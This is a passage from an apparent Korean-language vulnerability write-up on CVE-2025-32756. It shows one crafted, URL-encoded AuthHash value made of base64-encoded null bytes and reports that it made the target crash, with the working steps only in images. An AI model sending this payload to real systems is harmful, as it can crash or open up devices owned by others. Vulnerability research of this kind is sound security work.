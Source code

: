 ### Exploit

먼저 `AuthHash`는 유효한 base64 형식이어야 하므로, NULL 문자들을 base64로 인코딩해 전송해보았습니다.

```
AuthHash%3DAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%3D%3D
```

![image.png](CVE-2025-32756/image4.png)

![image.png](CVE-2025-32756/image5.png)

몇 번의 시행착오 끝에 위와 같이 계산할 수 있었습니다.

![image.png](CVE-2025-32756/image6.png)

크래시가 발생한 것을 확인했습니다. 
